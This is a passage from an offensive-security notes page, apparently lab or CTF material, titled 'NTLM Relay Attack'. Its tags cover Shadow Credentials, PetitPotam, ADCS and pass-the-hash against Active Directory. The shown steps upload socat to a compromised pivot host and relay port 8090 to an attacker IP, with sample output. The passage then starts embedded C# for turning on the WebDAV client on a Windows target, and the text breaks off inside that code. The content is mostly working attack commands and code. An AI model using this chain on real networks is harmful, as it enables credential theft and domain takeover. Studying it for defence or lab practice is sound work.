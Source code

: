 ```yaml
---
title: "NTLM Relay Attack"
date: 2025-7-25
tags: ["Shadow Credentials", "Attack Chain", "Ntlm", "Ldap", "Pass-The-Hash", "Impacket", "Ntlmreplay", "Petitpotam", "Active Directory", "Windows", "ADCS", "Webdav", "Pkinit", "Ticket Granting Ticket"]
---
```


### Abuse #1: Add Shadow Credential

#### 1. Run socat to Redirect Traffic (Inside Pivoting Node)

```console
# Upload socat.zip and unzip
Expand-Archive -Path "<SOCAT_ZIP_FILE_PATH>" -DestinationPath "<DEST_PATH>" -Force
```

```console {class="sample-code"}
PS C:\xampp\htdocs> Expand-Archive -Path "C:\xampp\htdocs\socat.zip" -DestinationPath "C:\xampp\htdocs\" -Force
```

```console
.\socat.exe tcp-listen:8090,reuseaddr,fork tcp:<LOCAL_IP>:80
```

```console {class="sample-code"}
PS C:\xampp\htdocs\socat-windows-master> .\socat.exe tcp-listen:8090,reuseaddr,fork tcp:10.10.14.31:80
      0 [main] socat 2084 find_fast_cwd: WARNING: Couldn't compute FAST_CWD pointer.  Please report this problem to
the public mailing list cygwin@cygwin.com
```

<small>*Ref: [socat](https://codeload.github.com/StudioEtrange/socat-windows/zip/refs/heads/master)*</small>

#### 2. Enable Webdav (Inside Windows Target) \[Optional\]

```console
$Source = @"
using System;
using System.Text;
using System.Security;
using System.Collections.Generic;
using System.Runtime.Versioning;
using Microsoft.Win32.SafeHandles;
using System.Runtime.InteropServices;
using System.Diagnostics.CodeAnalysis;

namespace JosL.WebClient{
	public static class Starter{
		[StructLayout(LayoutKind.Explicit, Size=16)]
		public class EVENT_DESCRIPTOR{
			[FieldOffset(0)]ushort Id = 1;
			[FieldOffset(2)]byte Version = 0;
			[FieldOffset(3)]byte Channel = 0;
			[FieldOffset(4)]byte Level = 4;
			[FieldOffset(5)]byte Opcode = 0;
			[FieldOffset(6)]ushort Task = 0;
			[FieldOffset(8)]long Keyword = 0;
		}
 
		[StructLayout(LayoutKind.Explicit, Size = 16)]
		public struct EventData{
```